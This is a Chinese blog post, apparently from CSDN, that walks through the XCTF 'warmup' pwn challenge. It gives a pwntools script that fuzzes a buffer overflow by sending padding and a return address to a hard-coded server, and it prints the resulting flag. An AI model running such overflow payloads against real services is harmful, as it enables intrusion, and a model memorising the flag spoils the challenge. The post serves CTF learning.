

<!--yml
category: 未分类
date: 2022-04-26 14:41:35
-->

# warmup [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列14_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103667987](https://blog.csdn.net/fastergohome/article/details/103667987)

题目地址：[warmup](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=5011&page=1)

这是高手进阶区的第三题，我们先看下题目内容

这个题目没有附件，那就是要fuzz的题目了，我们先正常走一下程序看看

```
root@mypwn:/ctf/work/python/warmup# nc 111.198.29.45 32453
-Warm Up-
WOW:0x40060d
>AAA
```

这个题目的出发点就是要大家做fuzz，看下提示内容有个地址0x40060d，那就是说fuzz的时候要带上地址/或者不带地址。

先给出fuzz的函数

```
addr = 0x40060d
def send_fuzz(p, num, type):
	payload = 'A'*num
	if type == 1:
		payload += p32(addr)
	if type == 2:
		payload += p64(addr)
	p.sendlineafter('>', payload) 
```

这里分成3种类型：不带地址，带32位地址，带64位地址

根据fuzz函数，构造fuzz带python脚本：

```
#coding:utf8

from pwn import *
# context.log_level = 'debug'

addr = 0x40060d
def send_fuzz(p, num, type):
	payload = 'A'*num
	if type == 1:
		payload += p32(addr)
	if type == 2:
		payload += p64(addr)
	p.sendlineafter('>', payload)

def main():
	for i in range (0x100):
		for j in range(3):
			p = remote('111.198.29.45',32453)  
			try:
				send_fuzz(p, i+1, j)
				r = p.recv()
				print('recv::length='+ str(len(r)) +',content=\''+r+'\'\n')
				p.interactive()

			except:  
				p.close()

main() 
```

执行之后的结果如下：

```
[+] Opening connection to 111.198.29.45 on port 32453: Done
[*] Closed connection to 111.198.29.45 port 32453
[+] Opening connection to 111.198.29.45 on port 32453: Done
recv::length=45,content='cyberpeace{7421a9d170942e884abfb77547400b73}
'

[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
```

直接给我们返回了flag，这个题目的知识点主要是掌握如何对未知程序的简单fuzz过程。